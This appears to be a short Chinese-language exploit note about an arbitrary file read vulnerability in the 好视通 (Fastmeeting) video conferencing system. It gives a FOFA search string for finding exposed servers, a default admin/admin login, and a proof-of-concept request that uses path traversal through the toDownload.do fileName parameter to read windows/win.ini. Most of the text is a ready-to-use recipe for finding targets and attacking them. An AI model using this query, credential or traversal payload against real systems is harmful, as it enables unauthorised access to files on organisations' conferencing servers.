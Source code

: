 ## 好视通视频会议系统 toDownload.do接口任意文件读取漏洞
好视通 是国内云视频会议知名品牌，拥有多项创新核心技术优势、多方通信服务牌照及行业全面资质 ，专注为政府、公检法司、教育、集团企业等用户提供“云+端+业务全场景”解决方案。其视频会议系统的路径(fastmeeting) /register/toDownload.do?fileName= 存在任意文件遍历漏洞，可通过fileName参数读取任意文件。 

弱口令admin/admin

## fofa
```
"深圳银澎云计算有限公司"
```

## poc
```
/register/toDownload.do?fileName=敏感文件路径
https://xxxxxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini

```


